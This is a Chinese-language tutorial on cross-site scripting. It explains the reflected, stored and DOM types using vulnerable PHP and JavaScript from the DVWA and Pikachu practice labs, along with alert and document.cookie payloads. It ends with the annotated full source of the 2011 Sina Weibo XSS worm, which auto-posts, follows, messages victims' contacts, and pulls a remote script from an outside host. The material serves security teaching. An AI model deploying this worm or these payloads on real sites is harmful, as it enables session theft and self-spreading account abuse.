在这些常见的Web 漏洞中，XSS（Cross-site Script，跨站脚本）漏洞无疑是最多见的。根据 HackerOne 漏洞奖励平台发布的 The 2020 Hacker Report，XSS 漏洞类型占所有报告漏洞中的 23％，排名第一。因此，在“模块二：漏洞攻防案例”，我特意以 XSS 作为讲解的第一个漏洞类型。

## 起源

最早的 XSS 漏洞可追溯到 1999 年末，微软安全工程师发现一些网站遭到攻击，网站被插入了一些恶意脚本和图像标签。随后，微软对此类漏洞进行研究分析，并在 2000 年 1 月，正式使用“cross-site scripting”这个名称，然后逐渐被业界采用，留传至今。

跨站脚本（Cross-site Script），按理应该简称为 CSS，但为了与层叠样式表（CSS）区分开，特意改为 XSS。

XSS 漏洞，通常指的是网站对用户输入数据未做有效过滤，攻击者可以将恶意脚本注入网站页面中，达到执行恶意代码的目的。攻击者只需要诱使受害者打开特定的网址，就可以在受害者的浏览器中执行被注入的恶意代码，从而窃取用户身份，执行一些敏感操作，或是进行其他的危害行为。

## 危害：绝不仅仅只是弹框

一些听过 XSS的同学，可能仅停留在弹框的印象里；我曾在修复此类漏洞时，只是简单地针对alert 函数做了下过滤。这都是对 XSS 攻防原理理解不够造成的误解。其实，只要你想象力够丰富，它的危害是可以造成很大的。

比如 2005 年 10 月 4 日诞生的世界上第一个 XSS 蠕虫：Samy（作者的名字）。Samy 利用网络社交媒体 MySpace的XSS 漏洞传播，受害者会自动将 Samy 本人添加为关注者，并在受害者的用户页面显示一行字串“but most of all，samy is my hero”，并再次插入恶意代码，谁访问受害者的网页谁就会被感染。

Samy 感染的用户呈指数倍增长，最终，超过 100 万用户被感染，作者也因事态发展失控而入狱，并被禁止 3 年内接触计算机，外加 90 小时的社区服务。




Samy 蠕虫是现实世界中 XSS 攻击的经典案例，除了蠕虫攻击外还有很多其他危害：盗号、钓鱼欺诈、篡改页面、刷广告流量、内网扫描、网页挂马、挖矿、键盘监听、窃取用户隐私等等。

如果能充分利用好业务场景下的功能，再结合一定技术和想象力，XSS 所造成的危害绝不仅仅只是弹框。

## XSS 漏洞的分类

通常 XSS 分为存储型和反射型，但还有一种比较特殊的 DOM 型 XSS，它本身属于反射型 XSS，不过介绍的时候需要单独来讲。因此，我就按 3 种类型划分：反射型、存储型、DOM 型。

### 反射型 XSS

反射型 XSS 又被称为非持久型跨站脚本，它是将攻击代码放在 URL 参数中，而不是存储到服务器，因此需要诱使用户点击才能触发攻击。

以 [DVWA](https://blog.csdn.net/2302_82189125/article/details/135834194) 中的反射型 XSS 题目为例，通过向 name 参数输入以下代码即可触发漏洞：

```html
<script>
    alert(1)
</script>
```



在 Chrome 浏览器中，用“检查”功能看下网页源码，可以发现我们输入的代码被解析并执行了：



其漏洞代码也非常简单。从 GET 参数 name 获取用户输入后，未经过滤就直接调用 echo 函数输出到页面，最终导致 XSS 的产生。漏洞代码如下：

```php
<?php
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>
```

有人认为反射型 XSS 的危害不如存储型 XSS，但我认为没有什么区别。这里的挑战主要是URL是否包含攻击代码。

### 存储型 XSS

第二种 XSS 漏洞是存储型 XSS，它又被称为持久型跨站脚本。攻击者将恶意代码存储到服务器上，只要诱使受害者访问被插入恶意代码的页面即可触发。存储型 XSS 经常出现在一些可以发表评论的地方，如帖子、博客。

在 DVWA 靶场中就有一个存储型 XSS 案例，它是个留言本的功能，支持用户发表评论，然后将用户输入的数据直接存储到数据库，并输出到页面上。这个过程中因为未做任何的过滤，导致了 XSS 漏洞的产生。



**存储型 XSS 的特点就是不需要在诱使用户访问的URL中包含攻击代码**，因为它已经存储到了服务器中，只需要让用户访问包含输出攻击代码的页面即可，漏洞代码如下：

```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = stripslashes( $message );
    $message = mysql_real_escape_string( $message );
    // Sanitize name input
    $name = mysql_real_escape_string( $name );
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    //mysql_close();
}
?>

```

从 POST 参数中获取 mtxMessage 和 txtName 参数后，虽然经过一定过滤才插入到数据库中，但是中括号不会被过滤，在其他地方将其输出到页面后就会被解析（如图 5）。我们在 Message 中输入`<script>alert(1)</script>`，点击“Sign Guestbook”提交，即可触发漏洞。



利用 Chrome 浏览器的“检查”功能查看网页源码，可以发现刚才输入消息中的`<script>`标签被解析了：



### DOM 型 XSS

DOM 型 XSS 漏洞，它是基于文档对象模型（Document Object Model，DOM，用于将 Web 页面与脚本语言链接起来的标准编程接口）的一种漏洞，它不经过服务端，而是通过 URL 传入参数去触发，因此也属于反射型 XSS。

由于客户端的 JavaScript 可以访问浏览器页面中的 DOM 对象，因此它能够决定如何处理当前页面的 URL，比如获取 URL 中的相关数据进行处理，然后动态更新到页面上。这导致 DOM 型 XSS 的漏洞代码常位于网页的 JavaScript 代码中。

以 [Pikachu](https://github.com/zhuifengshaonianhanlu/pikachu) 漏洞练习平台中的“DOM 型 XSS”题目为例：它只有一个文本输入框，外加一个“click me!”的按钮。我们先看下网页源码，看点击按钮后的回调函数。



`domxss` 函数就 2 行代码，第一行代码先通过 `document.getElementById("text").value` 获取 ID 为 `"text"`的元素内容。其实这就是输入框的内容，输入框的 ID就叫“text”。

```html
<input id="text" name="text" type="text" value="" />
```

第二行代码是将获取的输入框内容传递给 ID 为 `"dom"` 的元素，并将其写入 `innerHTML`，也就是输出到 HTML 页面中，整个过程对用户输入数据都未做任何过滤。直接输入 `test` 看下：



可以看到，输入框的内容输出到了 dom 元素中，作为 a 标签的链接地址。我们直接利用 JavaScript 伪协议来构造链接触发 JS 代码的执行，输入以下代码，然后点击“what do you see?”链接后即可触发漏洞：

```js
javascript: alert(1)
```



导致 DOM 型 XSS 的相关 DOM 操作函数有很多，这里我只是举了比较常见的 `innerHTML` 属性设置导致的漏洞为例子，其他的还有像 `eval`、`document.write` 等可触发漏洞的数据输出位置。

### 攻击 XSS 漏洞

针对 XSS 漏洞最为常见的两种攻击方式就是窃取 Cookie 劫持他人的会话，以及前面介绍过的蠕虫攻击。因此，这里会重点介绍这两者的相关技术，同时也涉及一些其他的攻击思路，最后会引出一些自动化利用工具的使用。

#### 窃取 Cookie

Cookie 是由服务器提供的存储在客户端的数据，允许 JavaScript 访问，常用于识别用户身份和保存会话等功能。如果 Web 应用程序存在 XSS 漏洞，那么攻击者通过注入恶意 JavaScript 脚本就可以窃取到 Cookie，进而以用户身份执行恶意操作。

通过 document.cookie 就可以访问到 Cookie。以掘金为例



当一个网站存在 XSS 时，我们就可以通过执行 document.cookie 获取当前受害者的 cookie，前提是要先诱使受害者访问特定的 URL。

以 Pikachu 中的反射型 XSS(Get) 题目为例，正常使用如下:



可以看到地址栏里的链接是 `http://localhost:8765/vul/xss/xss_reflected_get.php?message=kobe&submit=submit`；因为输入框有限制，直接将 kobe 改成 `<script>alert(document.cookie)</script>`，然后在键盘上按回车，效果如下：



这样就成功通过 JS 读取里用户的 cookie。

### 蠕虫攻击

面我介绍了 Samy 蠕虫，但并没有谈到XSS 蠕虫的实现技术。XSS 蠕虫的实现正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。

Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）是指一种**创建交互式网页应用的网页开发技术**。这个概念比较抽象，具体讲就是在我们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页面抖动、闪现之类的不适体验。这也正是 Web2.0 带来的改变。

Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript 脚本与服务器进行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。

2011年 6 月 28 日，新浪微博遭受 XSS 蠕虫的攻击，很多受害者被迫发布带有攻击链接的私信和微博。这些消息都带有一定的诱惑性，其他用户点击后也会此影响。受害者在感染后，都会自动关注一位名为“hellosamy”的微博用户（估计是效仿 Samy 蠕虫），然后向关注受害者的用户发送含有同样链接地址的私信，并发布含攻击链接的微博。得益于这种传播方式，在16 分钟内病毒就感染了33000 个用户。

我们来分析下新浪微博的 XSS 蠕虫代码：

```js
// 创建 XMLHttp 对象用于收发请求
function createXHR() {
    return window.XMLHttpRequest ? new XMLHttpRequest() : new ActiveXObject('Microsoft.XMLHTTP')
}

function getappkey(url) {
    xmlHttp = createXHR()
    xmlHttp.open('GET', url, false) //获取 AppKey 不采用异步执行,等待请求返回
    xmlHttp.send()
    result = xmlHttp.responseText
    id_arr = ''
    // 正则匹配出 AppKey 数组,包含每个被收听用户的 uid
    id = result.match(/namecard=\"true\" title=\"[^\"]*/g)
    //beefproject.com/
    https: for (i = 0; i < id.length; i++) {
        sum = id[i].toString().split('"')[3] //重新提取整理
        id_arr += sum + '||'
    }
    return id_arr
}

function random_msg() {
    // 使用短地址服务，构造 XSS 传播连接，隐藏自己的恶意 js 脚本，
    // 这里正是 XSS 漏洞的触发位置
    //http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=upd
    link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime()
    // 话题列表
    var msgs = ['郭美美事件的一些未注意到的细节：', '建党大业中穿帮的地方：', '让女人心动的 100 句诗歌：', '3D 肉团团高清普通话版种子：', '这是传说中的神仙眷侣啊：', '惊爆!范冰冰艳照真流出了：', '杨幂被爆多次被潜规则:', '傻仔拿锤子去抢银行：', '可以监听别人手机的软件：', '个税起征点有望提到 4000：']

    //随机选取话题,加上之前的传播连接作为微博内容
    var msg = msgs[Math.floor(Math.random() * msgs.length)] + link
    msg = encodeURIComponent(msg) //对内容进行 Url 编码
    return msg
}

// 利用 Ajax 发送 POST 请求
function post(url, data, sync) {
    xmlHttp = createXHR()
    xmlHttp.open('POST', url, sync)
    xmlHttp.setRequestHeader('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8')
    xmlHttp.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8')
    xmlHttp.send(data)
}

// 发表微博，话题随机
function publish() {
    url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime()
    data = 'content=' + random_msg() + '&pic=&styleid=2&retcode=' //使用 random_msg 生成随机话题
    post(url, data, true)
}

// 自动关注用户
function follow() {
    url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime()
    // 使用当前页面存储的$CONFIG.$uid 构造自动关注数据包
    data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile'
    post(url, data, true)
}

// 发送私信
function message() {
    url = 'http://weibo.com/' + $CONFIG.$uid + '/follow' //构造用户关注用户列表页 Url
    ids = getappkey(url) //获取被关注用户的 Appkey 数组
    id = ids.split('||') //分割出每个被关注用户的 Appkey
    for (i = 0; (i < id.length - 1) & (i < 5); i++) {
        //构造私信发送 Url
        msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime()
        msg = random_msg()
        msg = encodeURIComponent(msg)
        user = encodeURIComponent(encodeURIComponent(id[i]))
        data = 'content=' + msg + '&name=' + user + '&retcode='
        post(msgurl, data, false) //通过 XmlHttpRequest 发送请求
    }
}

function main() {
    try {
        publish() //模拟发表微博
    } catch (e) {}

    try {
        follow() //模拟关注用户
    } catch (e) {}

    try {
        message() //模拟发送私信
    } catch (e) {}
}

try {
    //在当前 body 尾部插入存放在远端的 Xss 恶意脚本
    x = "g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)"
    window.opener.eval(x)
} catch (e) {}

main()

var t = setTimeout('location="http://weibo.com/pub/topic";', 5000)
//等待 5 秒跳转到微话题页面
```

## 工具推荐

- [BeEF](https://github.com/beefproject/beef)：<https://github.com/beefproject/beef>
- [pikachu](https://github.com/zhuifengshaonianhanlu/pikachu)：<https://github.com/zhuifengshaonianhanlu/pikachu>
